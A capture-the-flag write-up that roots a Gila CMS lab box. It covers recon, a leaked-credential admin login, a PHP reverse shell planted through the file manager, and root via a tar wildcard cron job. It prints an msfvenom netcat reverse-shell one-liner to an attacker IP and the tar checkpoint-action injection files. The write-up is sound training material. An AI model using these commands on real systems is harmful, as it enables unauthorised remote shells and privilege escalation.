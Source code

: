 # [cd ../](../index.md)
# CMesS
> Can you root this Gila CMS box?  
> Please add `10.10.28.87 cmess.thm` to **/etc/hosts**

# Start

## Recon

### Nmap
```
nmap -A -T4 -p- cmess.thm
```
Open ports are: 
- 22 - OpenSSH 7.2p2 
- 80 - Apache httpd 2.4.18 

### Website
![web](web.png)  
There is nothing interesting here. ):

### Dirsearch
![dsearch](dsearch.png)  
We have a login on `/admin` but we dont have creds!

### Subdomain bruteforcing
```
ffuf -c -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fl 108
```
We need the `-fl 108` to avoid junk.  
![ffuf](ffuf.png)  
We got only one subdomain `<subdomain>.cmess.thm`  
![dis gon be gud](https://media.giphy.com/media/2awcOE20shEQg/giphy.gif)  
- Add `<subdomain>.cmess.thm` to **/etc/hosts**  
  ![hosts](hosts.png)

## Admin panel
If we go there we can see a user and a password!  
![pass](pass.png)  
Use these creds in `cmess.thm/admin`  
![login](login.png)  
And now we have an admin panel!

## Getting a lowpriv shell
Go to ***Content***->***File Manager***  
Open the index.php and replace the content with a [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)  
![revshell](revshell.png)  
Now just go to `http://cmess.thm` while our nc is listening and BOOM we got a revshell as **www-data** !!

## Privesc
### Linenum
An interesting cronjob is running
```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
We got `/opt/.password.bak` at the end of the linenum

```
cat /opt/.password.bak
```
And we got *andre's backup password*  
Now just ssh in as andre with the new creds  
And we got the ***SHELL*** as ***andre***  
Btw we got the user flag too from `/home/andre/user.txt`

## Getting ROOT
### Linenum again :D
We see the cronjob again and nothing more  
We have to do stg with it  
We need the [Wildcard exploit](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)  

### Creating the exploit
Lets make a reverse nc with msfvenom!
```
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.22.204 lport=31337 R
```
And we got the payload:
```
mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj
```

### Exploiting
```
echo "mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Now we just have to wait a lilbit  
![gotroot](gotroot.png)

# Got root and got the flag from `/root/root.txt`
